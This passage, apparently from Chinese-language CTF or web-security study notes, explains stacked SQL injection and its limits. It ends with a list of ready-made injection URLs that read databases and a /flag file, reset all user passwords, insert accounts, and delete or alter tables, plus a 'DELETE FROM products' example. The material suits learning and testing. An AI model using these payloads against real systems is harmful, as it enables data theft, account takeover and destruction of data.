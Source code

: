 ```python
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

### 堆叠注入

+ 快速了解

 在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。

 而 union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all 执行的语句类型是有限的，只可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products，则服务器端生成的sql语句为：

```sql
Select * from products where productid=1;DELETE FROM products
```

当执行命令后，第一条显示查询信息，第二条则将整个表进行删除。

+ 局限性

>并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。

>虽然我们前面提到了堆叠查询可以执行任意的sql语句，但是这种注入方式并不是十分的完美的。在我们的web系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。因此，在读取数据时，还是建议使用 union（联合）注入。同时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。

> 一般存在堆叠注入的都是由于使用 `mysqli_multi_query()` 函数执行的sql语句，该函数可以执行一个或多个针对数据库的查询，多个查询用分号进行分隔。

> 时在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。

#### 注入流程

```sql
# 读取数据
/?id=1';show databases;--+
/?id=1';show tables;--+
/?id=1';show tables from database_name;--+
/?id=1';show columns from table_name;--+

# 读取文件
/?id=1';select load_file('/flag');--+

# 修改数据表的结构
/?id=1';insert into users(id,username,password)values(20,'whoami','657260');--+    # 插入数据
/?id=1';update users set password='657260' where id>0;--+    # 更改数据
/?id=1';delete from users where id=20;--+    # 删除数据
/?id=1';create table fake_users like users;--+    # 创建一个新表
?id=1';rename table old_table to new_table;--+    # 更改表名
?id=1';alter table users change old_column new_column varchar(100);--+    # 更改字段名
```

#### 常见利用方式
